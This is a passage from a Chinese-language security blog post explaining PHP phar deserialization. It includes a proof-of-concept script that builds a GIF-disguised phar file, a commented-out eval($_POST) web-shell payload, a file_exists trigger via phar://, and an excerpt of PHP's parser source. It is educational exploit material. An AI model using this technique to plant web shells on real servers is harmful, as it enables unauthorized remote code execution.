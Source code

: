 ```php
<?php
class comrare
{
    public $haha = 'comrarezzzzz';

}
@unlink('shell.phar');
$phar = new Phar("shell.phar"); //后缀名必须为 phar
$phar->startBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$object = new comrare();
//$object ->haha= 'eval(@$_POST[\'a\']);';
$object ->haha= 'phpinfo();';
$phar->setMetadata($object); //将自定义的 meta-data 存入 manifest
$phar->addFromString("a", "a"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();

?>

```
这个 poc 同时绕过了 gif 限制和 phar 开头限制，同样我们可以 getshell 成功！

已经序列化的内容已经保存在了phar.phar中，我们用受影响的函数进行试验，去触发反序列化
```php
<?php 
    class TestObject {
        public function __destruct() {
            echo 'Destruct called';
        }
    }

    $filename = 'phar://phar.phar/test.txt'; //test.txt是保存在phar包中的文件条目
    file_exists($filename); //受影响的file_exists函数
?>
```
结果内容如下：

![](https://img2020.cnblogs.com/blog/1586953/202003/1586953-20200319131257281-727881069.png)

可以看到先触发了反序列化 输出了test内容，然后还会执行当前TestObject类中的析构函数，如果当前没有写TestObject类的话，单纯执行反序列化只会输出test内容！

当文件系统函数的参数可控时，我们可以在 不调用unserialize()的情况下 进行 反序列化操作 ，一些之前看起来"人畜无害"的函数也变得"暗藏杀机"，极大的拓展了攻击面 ！

PHP底层phar解析数据处理过程
-

```php
int phar_parse_metadata(char **buffer, zval *metadata, uint32_t zip_metadata_len){

    php_unserialize_data_t var_hash;
    if (zip_metadata_len) {
        const unsigned char *p;
        unsigned char *p_buff = (unsigned char *)estrndup(*buffer, zip_metadata_len);
        p = p_buff;
        ZVAL_NULL(metadata);
        PHP_VAR_UNSERIALIZE_INIT(var_hash);

        if (!php_var_unserialize(metadata, &p, p + zip_metadata_len, &var_hash)) { //这里是最重要的，如果metadata存在的话 就会帮我们进行反序列化的操作，if语句后面就是对前面生成的数据的内存清除
            efree(p_buff);
            PHP_VAR_UNSERIALIZE_DESTROY(var_hash);
            zval_ptr_dtor(metadata);
            ZVAL_UNDEF(metadata);
            return FAILURE;
        }
```